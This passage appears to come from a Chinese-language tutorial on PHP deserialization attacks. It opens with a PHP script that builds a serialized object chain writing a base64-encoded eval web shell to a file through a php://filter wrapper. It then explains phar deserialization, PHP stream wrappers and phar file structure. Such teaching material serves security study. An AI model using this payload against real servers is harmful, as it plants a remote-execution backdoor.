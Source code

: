     ```php
    <?php
    error_reporting(0);
    class A {
        protected $store;
        protected $key;
        protected $expire;
        public $complete;
        public function __construct() {
            $this->cache = array();
    /*        $this->complete = base64_encode("111".base64_encode('<?php eval($_POST["cmd"]); ?>'));*/
            $this->complete = "111".base64_encode('<?php eval($_POST["cmd"]); ?>');
            $this->key = "php://filter/write=convert.base64-decode/resource=eval.php";
            $this->store = new B();
            $this->autosave = false;
        }
    }
    class B {
        public $options = array();
        public function __construct(){
            $this->options['serialize'] = 'trim';
            $this->options['data_compress'] = false;
        }
    }
    echo urlencode(serialize(new A()));
```


### 类型四-phar反序列化

1. phar反序列化

    phar文件本质上是一种压缩文件，会以序列化的形式存储用户自定义的meta-data。当受影响的文件操作函数调用phar文件时，会自动反序列化meta-data内的内容。

2. phar文件

    在软件中，PHAR（PHP归档）文件是一种打包格式，通过将许多PHP代码文件和其他资源（例如图像，样式表等）捆绑到一个归档文件中来实现应用程序和库的分发

    php通过用户定义和内置的“流包装器”实现复杂的文件处理功能。内置包装器可用于文件系统函数，如(fopen(),copy(),file_exists()和filesize()。 phar://就是一种内置的流包装器。

    php中常见流包装器

    ```php
    file:// — 访问本地文件系统，在用文件系统函数时默认就使用该包装器
    http:// — 访问 HTTP(s) 网址
    ftp:// — 访问 FTP(s) URLs
    php:// — 访问各个输入/输出流（I/O streams）
    zlib:// — 压缩流
    data:// — 数据（RFC 2397）
    glob:// — 查找匹配的文件路径模式
    phar:// — PHP 归档
    ssh2:// — Secure Shell 2
    rar:// — RAR
    ogg:// — 音频流
    expect:// — 处理交互式的流
    ```

3. phar文件结构

    ```php
    stub:phar文件的标志，必须以 xxx __HALT_COMPILER();?> 结尾，否则无法识别。xxx可以为自定义内容。
    manifest:phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这是漏洞利用最核心的地方。
    content:被压缩文件的内容
```